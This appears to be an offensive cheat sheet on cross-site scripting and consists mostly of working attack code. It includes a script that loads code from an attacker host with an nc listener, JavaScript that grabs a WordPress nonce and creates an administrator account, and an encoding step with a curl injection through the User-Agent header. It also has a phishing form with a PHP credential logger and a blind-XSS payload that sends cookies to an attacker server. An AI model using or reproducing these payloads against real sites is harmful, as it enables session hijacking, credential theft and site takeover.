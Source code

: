 ### XSS to NC Reverse Shell
```
<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//your-kali-linux-ip:4444";d.body.appendChild(z)},0)</script>

while :; do printf "zemo>$ "; read c; echo $c | nc -vvlp PORTNUMBER >/dev/null; done {type in kali linu}
```

### XSS to steal cookie
>The Secure flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in clear text and captured over the network.

>The HttpOnly flag instructs the browser to deny JavaScript access to the cookie. If this flag is not set, we can use an XSS payload to steal the cookie.

### XSS to Privilege Escalation
###### Pre-requisite
database.php
```
function VST_save_record() {
	global $wpdb;
	$table_name = $wpdb->prefix . 'VST_registros';

	VST_create_table_records();

	return $wpdb->insert(
				$table_name,
				array(
					'patch' => $_SERVER["REQUEST_URI"],
					'datetime' => current_time( 'mysql' ),
					'useragent' => $_SERVER['HTTP_USER_AGENT'],
					'ip' => $_SERVER['HTTP_X_FORWARDED_FOR']
				)
			);
}
```
start.php
```
$i=count(VST_get_records($date_start, $date_finish));
foreach(VST_get_records($date_start, $date_finish) as $record) {
    echo '
        <tr class="active" >
            <td scope="row" >'.$i.'</td>
            <td scope="row" >'.date_format(date_create($record->datetime), get_option("links_updated_date_format")).'</td>
            <td scope="row" >'.$record->patch.'</td>
            <td scope="row" ><a href="https://www.geolocation.com/es?ip='.$record->ip.'#ipresult">'.$record->ip.'</a></td>
            <td>'.$record->useragent.'</td>
        </tr>';
    $i--;
}
```
###### Js to capture the word press nounce
```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
###### Minify the above js code
```
https://jscompress.com/
```
###### Encode the minified js code
```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
Launch the attack
```
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(insert the encoded js here))</script>" --proxy 127.0.0.1:8080
```
### Phishing XSS
backend
```
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>

Save as index.php
sudo php -S 0.0.0.0:80
```
frontend
```
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```
### Blind XSS
index.php
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
sudo php -s 0.0.0.0 80
xss payload:
```
"><script>document.location='http://OUR_IP/index.php?c='+document.cookie;</script>
```
